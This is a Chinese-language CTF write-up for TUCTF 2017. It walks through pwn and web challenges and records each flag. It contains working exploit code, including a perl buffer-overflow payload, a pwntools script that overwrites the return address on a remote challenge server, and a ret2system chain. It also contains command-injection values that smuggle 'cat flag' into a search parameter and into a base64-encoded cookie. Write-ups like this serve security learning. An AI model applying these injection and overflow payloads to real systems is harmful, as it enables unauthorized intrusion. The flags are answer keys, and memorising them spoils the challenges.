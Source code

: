 # TUCTF 2017


## vuln chat

第一個scanf %30s

可以控到第二個scanf的format string

然後第二個scanf蓋夠長就能直接蓋到main的return address

payload:

`perl -e 'print "A"x20,"%90s\n","A"x49,"\x6B\x85\x04\x08\n"'`

`TUCTF{574ck_5m45h1n6_l1k3_4_pr0}`


## vuln chat 2.0

直接蓋最後兩bytes

跳到print_flag

exp:

```
from pwn import *

r = remote('vulnchat2.tuctf.com', 4242)

r.sendline('aaa')
sleep(1)
r.send('a'*43 + "\x72\x86")

r.interactive()
```


## guestbook

直接read第6個，可以把一些dest渣渣和system給leak出來

然後直接change name去改dest，因為gets可以讀無限長

所以理論上可以直接蓋到return address

但要注意中間有東西會被蓋壞 (strcpy那邊)

跟一下可以發現

這邊應該是index被蓋掉了

蓋回0就行

```
0x5655597d <main+443>:   call   0x56555550 <gets@plt>
0x56555982 <main+448>:    add    esp,0x4
0x56555985 <main+451>: mov    eax,DWORD PTR [ebp-0x34]
=> 0x56555988 <main+454>:  mov    eax,DWORD PTR [ebp+eax*4-0x2c]
0x5655598c <main+458>:  lea    edx,[ebp-0x98]
0x56555992 <main+464>:   push   edx
0x56555993 <main+465>:    push   eax
0x56555994 <main+466>: call   0x56555570 <strcpy@plt>
```

index的offset的話就是 0x98 - 0x34


除了這邊，還有一個地方會爛：

正常：

```
   0x5655598c <main+458>:       lea    edx,[ebp-0x98]
   0x56555992 <main+464>:       push   edx
   0x56555993 <main+465>:       push   eax
=> 0x56555994 <main+466>:       call   0x56555570 <strcpy@plt>
   0x56555999 <main+471>:       add    esp,0x8
   0x5655599c <main+474>:       jmp    0x565559b3 <main+497>
   0x5655599e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x565559a2 <main+480>:       jmp    0x565559b3 <main+497>
Guessed arguments:
     arg[0]: 0x56558008 --> 0x61 ('a')
     arg[1]: 0xffffd540 --> 0xffff0078 --> 0x0
```

不正常：

```
   0x5656e98c <main+458>:       lea    edx,[ebp-0x98]
   0x5656e992 <main+464>:       push   edx
   0x5656e993 <main+465>:       push   eax
=> 0x5656e994 <main+466>:       call   0x5656e570 <strcpy@plt>
   0x5656e999 <main+471>:       add    esp,0x8
   0x5656e99c <main+474>:       jmp    0x5656e9b3 <main+497>
   0x5656e99e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x5656e9a2 <main+480>:       jmp    0x5656e9b3 <main+497>
Guessed arguments:
     arg[0]: 0x0                           <============   這個炸惹
     arg[1]: 0xff9675b0 --> 0x0
```


改用 r.sendline("\x00"*108 + p32(0xdeadbeef)*1 + p32(0) * 11 + p32(system_addr) + p32(sh) * 2) 後：

Guessed arguments:
     arg[0]: 0xdeadbeef                    <============  108 ~ 112的位置
     arg[1]: 0xffbb7ad0 --> 0x0


## The nerver ending crypto

英文+特殊符號的凱薩加密

共50回合


`TUCTF{wh0_w@s_her3_la5t_ye@r?!?}`


## High source

從source code可以找到密碼

view-source:http://highsource.tuctf.com/scripts/login.js

password: `I4m4M4st3rC0d3rH4x0rsB3w43`

`TUCTF{H1gh_S0urc3_3qu4ls_L0ng_F4ll} `


## Cookie Duty 

cookie: `not_admin: 1 -> 0`

`TUCTF{D0nt_Sk1p_C00k13_Duty}`


## Git Gud

dump /.git

`git reset 22f63ceab55efe05c5448676a3470b13b6545f74`

`git diff`

`TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}`


## Cookie Harrelson

cookie中可以看到一串base64

decode後發現是cat index.txt

踹踹看送cat flag可以發現前面會加上註解

用\n cat flag就可以繞過 (要先base64，再塞進cookie)


## iframe and shame

payload:

`search=https://youtube.com/watch?v=qqqasda";cat flag|head -1; "`

`TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}`


## Funmail

直接找username, password

就能登入看flag


## Funmail2.0

直接gdb跳過去print_flag


## I'm playing

登入discord即可看到flag

